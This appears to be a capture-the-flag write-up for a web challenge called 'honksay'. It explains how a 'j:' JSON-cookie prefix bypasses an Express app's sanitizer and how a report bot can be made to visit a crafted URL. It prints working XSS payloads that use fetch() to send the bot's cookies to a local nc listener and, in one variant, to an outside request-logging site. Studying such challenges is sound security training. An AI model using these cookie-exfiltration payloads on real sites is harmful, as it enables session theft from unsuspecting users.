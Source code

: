 # honksay

<span id="-web"></span><span id="web" class="tag">web</span> <span
id="-xss"></span><span id="xss" class="tag">xss</span> <span
id="-ssrf"></span><span id="ssrf" class="tag">ssrf</span>

## Analysis

We are given the source of a web application and its address. The home
page is just a goofy duck and a form.

<img src="img/home.png"
style="height:400px" alt="home.png" />

We actually got a `302` when accessing the application for the first
time. This response set the `honk` and `honkcount` cookies.

    HTTP/1.1 302 Found
    X-Powered-By: Express
    X-Frame-Options: DENY
    X-Content-Type-Options: nosniff
    Set-Cookie: honk=HONK; Path=/; HttpOnly
    Set-Cookie: honkcount=0; Path=/; HttpOnly
    Location: /
    Vary: Accept
    Content-Type: text/html; charset=utf-8
    Content-Length: 46
    Date: Mon, 29 Aug 2022 01:34:04 GMT
    Connection: close

    <p>Found. Redirecting to <a href="/">/</a></p>

These cookies are reflected on the home page. We can see this by looking
at the source for the `/` route.

    app.get('/', (req, res) => {
        if (req.cookies.honk){
            //construct object
            let finalhonk = {};
            if (typeof(req.cookies.honk) === 'object'){
                finalhonk = req.cookies.honk
            } else {
                finalhonk = {
                    message: clean(req.cookies.honk), 
                    amountoftimeshonked: req.cookies.honkcount.toString()
                };
            }
            res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
        } else {
    <snip>

It's important to note that the `honk` cookie is sanitized by the
`clean` function when `typeof(req.cookies.honk) === 'object'` is `true`.
So if we make the cookie an object we'll have XSS. I tried to simply set
it to a JSON object, but this didn't work, the cookie was still parsed
as a string.

I then decided to take a look at the cookie parser's [source
code](https://github.com/expressjs/cookie-parser/blob/master/index.js)
to figure out how I could make it output an object and found this piece
of code. This means that the contents of a JSON cookie must start with
`j:`. This trick was used to bypass the filter and get XSS.

    function JSONCookie (str) {
      if (typeof str !== 'string' || str.substr(0, 2) !== 'j:') {
        return undefined
      }
    <snip>

We also have a `/changehonk` route, which changes the `honk` cookie to
whatever we want.

    app.get('/changehonk', (req, res) => {
        res.cookie('honk', req.query.newhonk, {
            httpOnly: true
        });
        res.cookie('honkcount', 0, {
            httpOnly: true
        });
        res.redirect('/');
    });

The form on the home page POSTs to `/report`. This route makes the goose
visit any URL we want, so we have SSRF.

    app.post('/report', (req, res) => {
        const url = req.body.url;
        goose.visit(url);
        res.send('honk');
    });

The `visit` function uses
[puppeteer](https://github.com/puppeteer/puppeteer) to visit our URL.
This is done using Headless Chrome, so the goose will actually run the
Javascript on the page. We can also see that the flag is on the goose's
browser.

    const FLAG = process.env.FLAG || "maple{fake}";
    <snip>

    page = await browser.newPage();
    await page.setCookie({
        name: 'flag',
        value: FLAG,
        domain: 'localhost',
        samesite: 'none'
    });
    await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));

## Solution

We'll use `/report` to make the goose visit `/changehook` and set its
`honk` cookie to an XSS payload that gives us its cookies. Our cookie
must start with `j:` so that it gets parsed as an object and the XSS
filter gets bypassed.

Here's the final request.

    POST /report HTTP/1.1
    Host: localhost:9988
    Content-Length: 230
    Cache-Control: max-age=0
    sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Linux"
    Upgrade-Insecure-Requests: 1
    Origin: http://localhost:9988
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: http://localhost:9988/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: honk=HONK; honkcount=0
    Connection: close

    url=<@urlencode>http://localhost:9988/changehonk?newhonk=j:{"message":"<script>fetch(`http://localhost:1234/?a=${document.cookie}`);window.location.href='http://localhost:9988/';</script>","amountoftimeshonked":"a"}<@/urlencode>

And here's the flag being received through `nc`.

    wiki_imgs$ nc -lnvp 1234
    Connection from 127.0.0.1:41874
    GET /?a=flag=maple{fakefleg} HTTP/1.1
    Host: localhost:1234
    Connection: keep-alive
    sec-ch-ua:
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/102.0.5005.173 Safari/537.36
    sec-ch-ua-platform:
    Accept: */*
    Origin: http://localhost:9988
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://localhost:9988/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-US

Some guy on Discord also figured out another way to make the cookie an
object.

    http://localhost:9988/changehonk?newhonk[message]=<script>fetch(`https://putsreq.com/nVXmm9ia90BBByv1Qx7H?${document.cookie}`);</script>
